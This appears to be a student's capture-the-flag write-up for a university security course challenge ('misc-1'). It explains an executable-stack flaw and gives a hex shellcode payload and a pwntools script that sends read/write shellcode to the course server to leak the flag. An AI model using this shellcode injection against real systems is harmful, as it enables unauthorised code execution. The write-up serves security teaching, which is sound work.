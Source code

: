 ```python
    r.sendline(p)
    r.interactive()

if __name__ == "__main__":
    main()
```


==============================
==============================

misc-1 | simple
===========================

Flag: `6447{916709a2-490a-4ee1-b631-62452673a148}`

General overview of problems faced
-------------------------------------
Learned how to write and convert shellcode using pwntools

List of vulnerabilities
--------------------
1. The stack is executable
2. The program executes the code in your buffer by loading the buffer into eax and executing `call eax` which allows the user to input malicious code

Steps to exploit
------------------
1. Generate assembly code to read from file handler 1000 into esp and read 42 bytes of text
2. Generate assembly code to write to STDOUT (fh = 1) and write 42 bytes.
3. Convert the assembly code to hex. A valid payload is "\x31\xdb\x66\xbb\xe8\x03\x89\xe1\x6a\x2a\x5a\x6a\x03\x58\xcd\x80\x6a\x01\x5b\x89\xe1\x6a\x2a\x5a\x6a\x04\x58\xcd\x80"
4. Send the payload and receive the flag

Script/Command used
------------------
```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

# Flag: 6447{916709a2-490a-4ee1-b631-62452673a148}

from pwn import *

context.arch = 'i386'

r = remote("misc.6447.sec.edu.au", 8005)

payload = shellcraft.read(1000, 'esp', 42)
payload += shellcraft.write(1, 'esp', 42)

asm_payload = asm(payload)
r.sendline(asm_payload)

print "Flag:", r.recvrepeat(0.2).split()[-1]
```
